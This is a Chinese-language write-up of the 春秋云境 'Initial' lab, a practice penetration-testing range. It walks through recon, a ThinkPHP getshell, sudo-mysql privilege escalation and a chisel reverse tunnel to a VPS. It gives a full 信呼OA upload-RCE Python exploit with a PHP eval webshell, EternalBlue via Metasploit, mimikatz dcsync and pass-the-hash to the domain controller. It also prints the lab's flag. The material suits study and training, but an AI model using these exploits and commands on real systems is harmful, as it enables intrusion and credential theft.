 ```yaml
---
title: 春秋云境-Initial
subtitle:
date: 2025-03-14T14:19:42+08:00
slug: 8c9f848
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 春秋云境
categories:
  - 春秋云境
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/b26f9fd59f01b8c198e5d89cdbdbf684.png)
外网打点

``` Shell
fscan -h 39.98.109.170
```



![](images/75b7336bfeb8fcde6d1a76ac6635c29d.png)
ico发现是Thinkphp

![](images/41ad37689e7c7b7cd9893aa9c6b90712.png)
Thinkphp综合利用工具

![](images/2cda5015a42cc1de1e1120ad6bfd24c5.png)
Getshell并进行传马

![](images/8c6d010e7f90dc253b9eb9bc31fe0f7d.png)
蚁剑连接

![](images/a419d62e170b68d15c58f7164ccbc2af.png)
尝试读取root，发现并没有权限

![](images/adca8dffec2ddaf0527401de69b2c80a.png)
尝试提权，suid不可利用，尝试sudo提权

![](images/3ad1c22f4b574350cf9920e0eb4ce993.png)
mysql配置了免密使用，mysql暂时拿到root权限，使用mysql -e命令即可，使用mysql -e命令查找root用户中的flag文件

``` Shell
sudo mysql -e '\! find / -name flag*'
```



![](images/c52ffdced9ffb469cd2b9624247f0d6c.png)
发现flag01.txt文件

![](images/d1059562426618ba3782e70921d3249c.png)
读取内容

``` Shell
sudo mysql -e '\! cat /root/flag/flag01.txt'
```



![](images/4b618a54fab991c70107bc187ae1f37e.png)
扫描内网，上传fscan到`/tmp`，并给予权限

![](images/eaa9c7175e9f77c29a7ac109a5585429.png)

```
chmod 777 fscan
```

查看网卡信息，并进行扫描

``` Shell
ip addr
```



![](images/e6175cc57bbd5cf7570297c69597456f.png)

``` Shell
./fscan -h 172.22.1.0/24 >> fscan.txt
```



![](images/6fe3a60941b9399c5bf52ec1524ee90a.png)
从结果可以得到目标
172.22.1.2:DC域控  
172.22.1.21:Windows的机器并且存在MS17-010 漏洞  
172.22.1.18:信呼OA办公系统
接下来搭建frp内网穿透，vps当作跳板机
上传chisel到`/tmp`，给予权限并运行

```
靶机
./chisel client vps_ip:9001 R:0.0.0.0:9002:socks

vps
./chisel server -p 9001 --reverse
```



![](images/0522a523ca8072ddc8af35cc7bbb7a00.png)

![](images/c8d57b364422ae14f96414e69d36e252.png)

代理成功，尝试访问信呼OA



![](images/dac60f4ec4f7a92855a83e5f5817156d.png)

![](images/9fbfa2a2f1c89c51877ba54bdcbcd058.png)
尝试弱口令爆破进入管理系统admin/admin123，登陆以后信呼OA存在rce，直接用exp打

``` 1.php
<?php @eval($_POST['t1ng']);?>
```

两个文件须在同一目录下

``` exp.py
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```



![](images/6be8e70fb538aafca29943133c6f5ca7.png)
蚁剑设置代理，并且按照给出路径进行连接

![](images/7ee0b9505a2d9bf4e836c8fca17068e0.png)

![](images/998afd0e487b47cd6058be4ec10c939f.png)
在`C:/Users/Administrator/flag/flag02.txt`拿到第二部分flag

![](images/dd598f94e23105fdfb157f8b107c67c2.png)
先打172.22.1.21的MS17-010的永恒之蓝
配置一下kali虚拟机的socks5代理

```
vim /etc/proxychains4.conf

内容
socks5 vps_ip 9002 
```

接下来msf打永恒之蓝

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
```



![](images/d57d574f0008bf9cb865cd235ee3c56d.png)
拿到SYSTEM权限，`load kiwi`调用mimikatz模块，获取域内用户hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```



![](images/808e5419b46d82bf8ffdc4dc9451ccc0.png)
用crackmapexec打PTH拿下域控

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```



![](images/7f5326b1e7ce49a322bcd40960eff27d.png)
拿到第三段flag。

flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
